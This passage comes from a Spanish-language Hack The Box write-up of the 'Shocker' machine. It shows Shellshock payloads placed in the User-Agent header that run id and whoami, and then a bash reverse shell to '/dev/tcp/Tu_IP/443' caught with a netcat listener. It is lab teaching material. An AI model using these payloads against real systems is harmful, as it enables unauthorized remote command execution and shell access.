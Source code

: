 * Ahora prueba con: **User-Agent: () { :; }; echo; /usr/bin/id**

<p align="center">
<img src="/assets/images/htb-writeup-shocker/Captura6.png">
</p>

* Igual prueba con el siguiente: **User-Agent: () { :; }; echo; /bin/bash -c 'whoami'**

<p align="center">
<img src="/assets/images/htb-writeup-shocker/Captura7.png">
</p>

Con lo que acabamos de hacer, comprobamos que es vulnerable al **ataque Shellshock**. 

Ahora ganemos acceso, igual por pasos:

* Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Cambia el contenido del **User-Agent**, por nuestra Reverse Shell de confianza: **User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/Tu_IP/443 0>&1'**

<p align="center">
<img src="/assets/images/htb-writeup-shocker/Captura8.png">
</p>
